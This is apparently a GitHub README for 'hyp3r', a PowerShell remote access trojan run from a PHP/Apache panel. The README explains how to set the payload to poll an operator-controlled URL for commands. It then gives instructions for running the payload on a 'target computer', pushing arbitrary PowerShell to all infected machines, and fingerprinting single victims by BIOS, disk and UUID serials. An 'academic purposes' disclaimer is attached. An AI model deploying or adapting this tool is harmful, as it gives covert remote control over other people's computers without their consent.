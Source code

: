 # hyp3r RAT

<img src=https://upload.wikimedia.org/wikipedia/commons/2/2f/PowerShell_5.0_icon.png>

## hyp3r is a basic RAT written in powershell.

**DISCLAIMER: THIS PROJECT IS FOR ACADEMIC PURPOSES ONLY. THE DEVELOPERS TAKE NO RESPONSIBILITY FOR ILLEGAL USAGE AND/OR POTENTIAL HARMS.**

<hr>

## Requirements
  - PHP 8.0.2 (might work on older versions as well).
  - apache web server.
  - powershell version 5.1 (might work on older versions as well) installed on the target computer for cmdlets to run.

## Features
  - webGUI.
  - live target status.
  - remote shell execution.
  - multi-target support (the script can handle as many targets as your server can).
  - simple and easy to customize scripts.

## Notes
  - the timezone of both the server and the payload are set to GTB Standard Time so take that into account if you want to modify the inner workings of the script.
  - remember to modify the parameters inside the payload (`http.ps1`) to suit your needs.

## Installation

### 1. Clone this repository

You can use git to clone this repository or download .zip file from GitHub.

```bash
git clone https://github.com/xze3n/hyp3r.git
cd hyp3r/
```

### 2. Configure
  - Copy the contents of the `apache` folder to your webserver's page folder.
  - Edit lines `2`, `3` and `4` inside `http.ps1` as follows: 

```powershell
$verurl = 'http://your_website_url_or_ip/script.txt'
$url = 'http://your_website_url_or_ip'
$stop = 'the syntax of your choice to force stop the payload on the target machine'
```

  - Save and close the file. The installation is now complete!

## Usage

#### 1. Start your webserver.
#### 2. Run the powershell payload on the target computer.
#### 3. Open `localhost` inside a browser to see the active connections.

#### To run commands on the target computer(s) open the file called `script.txt` inside your webserver's page folder and modify its contents
  - Example:
```powershell
[System.Console]::Beep(1000,300)
```

  -the syntax above will result in a short *beep* given out by the target
### Notes:
  - The commands or scripts you write inside `script.txt` must be powershell code (obviously).
  - If you have multiple targets that listen to the same server the commands inside `script.txt` will be ran by all of the computers listening.
  - If you want to run a command only on one of the targets you will have to get a little creative:

```powershell
if($env:COMPUTERNAME -eq "TARGET-PC") {
	echo "now it will only be executed by targets with the user TARGET-PC"
}
```
  - If the `COMPUTERNAME` identifier is way to simple for your needs and it brings up problems you can use the scripts unique identifier composed of the biosid hddid and uuid of the target computer

```powershell
$a=Get-WmiObject win32_bios | Format-List SerialNumber | out-string; $id_bios=$a.split(' ')[2].Trim(); #bios id
$b=wmic diskdrive get serialnumber; $id_hdd=$b.split('\n')[2].Trim(); #hdd id
$c=Get-WmiObject -Class Win32_ComputerSystemProduct | Select-Object -Property UUID | out-string;$id_uuid=$c.split(' ')[64].Trim() #uuid
$ids=$ids=$id_bios, $id_hdd, $id_uuid; $ids=[system.String]::Join("_", $ids);
if($ids -eq "UNIQUE_IDENTIFIER") {
	doStuff()
}
```


  - You can get the UNIQUE_IDENTIFIER of a computer from the `data.txt` file inside the webserver's page folder: 
  - eg. `CND83492ZZ_69BCTDGFT_760BD1B8-5170-E821-A4C3-1063E5C2E22F`.
